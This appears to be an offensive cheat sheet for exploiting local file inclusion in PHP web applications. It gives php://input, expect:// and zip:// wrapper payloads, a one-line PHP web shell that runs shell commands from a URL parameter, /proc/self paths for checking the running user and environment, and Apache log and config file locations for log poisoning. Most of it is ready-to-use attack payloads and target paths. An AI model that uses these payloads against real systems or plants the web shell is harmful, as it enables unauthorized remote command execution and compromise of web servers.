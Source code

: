 php Wrapper
```
expect://<command>  
```
page=php://input&cmd=ls  
in POST request  
```php
<?php echo shell_exec($_GET['cmd']);?>  
```
Upload Zip shell file and extract with zip
```
zip://path/to/file.zip%23shell  
zip://path/to/file.zip%23shell.php  
```
Check current running user  
/proc/self/status  
check uid and gid  

### Log Poisoning
[HTTPD Default Layout](https://wiki.apache.org/httpd/DistrosDefaultLayout)

**Common log file location**  
**Ubuntu, Debian**  
/var/log/apache2/error.log  
/var/log/apache2/access.log  

**Red Hat, CentOS, Fedora, OEL, RHEL**  
/var/log/httpd/error_log  
/var/log/httpd/access_log  
  
**FreeBSD**  
/var/log/httpd-error.log  
/var/log/httpd-access.log  

**Common Config file location**  
check any restriction or hidden path on accessing the server  

**Ubuntu**  
/etc/apache2/apache2.conf  

/etc/apache2/httpd.conf  
/etc/apache2/apache2.conf  
/etc/httpd/httpd.conf  
/etc/httpd/conf/httpd.conf  

**FreeBSD**  
/usr/local/etc/apache2/httpd.conf  

Hidden site?  
/etc/apache2/sites-enabled/000-default.conf  

proc/self/environ
[shell via LFI - proc/self/environ method](https://www.exploit-db.com/papers/12886/)

### SSH log posioning  
http://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/  
